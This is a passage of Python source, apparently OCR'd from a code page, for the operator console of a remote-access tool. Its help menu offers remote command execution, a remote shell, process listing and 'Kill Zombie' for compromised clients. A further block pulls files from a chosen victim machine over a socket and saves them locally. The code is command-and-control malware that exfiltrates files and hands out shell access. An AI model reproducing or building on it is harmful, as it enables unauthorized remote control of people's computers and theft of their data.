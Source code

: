 ```python
            return
        if choice == "cls" or choice == "clear":
            if os.name == 'nt':
                os.system("cls")
            else:
                os.system("clear")
        if choice == "help" or choice == "?":
            print(Fore.GREEN)
            print("Commands\n==================")
            print("msg: Send a Message")
            print("userinfo: Get user info")
            print("execute: Enter a command to be executed!")
            print("kill: Kill Zombie")
            print("procs: list all processes & their respective users (run as admin for best results)")
            print("shell: Start a Shell!")
            print("whoami: Whoami")
            print("send: Send a file")
            print("recv: Receive a file")
            print("return: Main menu")
            print(Fore.WHITE)
            input()
```

> The code to download a file:

```python
if choice == "recv":
            print("Enter the filepath + filename you want to download, ex: c:\\temp\\file.txt")
            file_path=input(":").strip()
            if not "." in file_path:
                print("did you intentionally include a file without a file extension? I'm going to assume not and back out")
                print("If this was intended, well...edit this code :D")
                return
            filename = file_path.rsplit("\\", 1)[-1] 
            print(filename)
            clientlist[selection][1].send(f"~download~{file_path}~\n".encode())
            filesize=clientlist[selection][1].recv(1024)
            filesize=int(filesize.decode())
            user = os.environ.get("USER")
            download_location = f"/home/{user}/Downloads/{filename}"
            with open(download_location, 'wb') as f:
                received = 0
                while received < filesize:
                    data = clientlist[selection][1].recv(4096)
                    if not data:
                        break
                    if not "?keepalive?" in data.decode("UTF-8", errors="ignore"):
                        f.write(data)
                        received += len(data)
            print("[+] File successfully downloaded!\n")
```
